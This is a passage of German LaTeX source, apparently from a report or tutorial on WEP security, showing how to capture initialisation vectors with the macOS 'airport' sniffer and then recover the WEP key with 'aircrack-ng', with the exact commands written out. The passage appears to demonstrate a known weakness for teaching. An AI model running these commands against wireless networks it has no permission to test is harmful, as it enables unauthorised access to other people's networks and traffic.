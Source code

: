 Mit dem \textit{Sniffer} können benötigte Daten auf einem konkreten Netz aufgezeichnet werden. Es werden ca. 5'000 \gls{ivLabel}'s benötigt um den Schlüssel zu berechnen. (Diese Aufzeichnung (capture) dauert unterschiedlich lange, je nach Nutzung des Netzes. Wird das Netz viel gebraucht, geht es schneller.)

\begin{figure}[H]
	\centering
	\includegraphics[width=0.8\textwidth]{images/wep/sniffer.png}
	\caption{Sniffer -- OS X Wireless Diagnostics}
\end{figure}


Der Sniffer kann auch direkt über die Kommandozeile ausgeführt werden:
\begin{lstlisting}[style=lstStyleFramed]
sudo ln -s /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport /usr/sbin/airport
sudo airport en0 sniff <CHANNEL>
\end{lstlisting}

Anschliessend können die Daten, vom \textit{Sniffer} mit dem \textit{aircrack-ng} ausgewertet werden:
\begin{lstlisting}[style=lstStyleFramed]
aircrack-ng -b 00:0f:cc:b0:1a:c8 /private/tmp/airportSniff*.cap
\end{lstlisting}

So wird einem, falls genügend \gls{ivLabel}'s vorhanden sind, der \gls{wepLabel} ausgegeben (Dauer: 2 Sek.).
\begin{figure}[H]
	\centering
	\includegraphics[width=1.0\textwidth]{images/wep/aircrack-ng.png}
	\caption{aircrack-ng -- Terminalausgabe}
\end{figure}
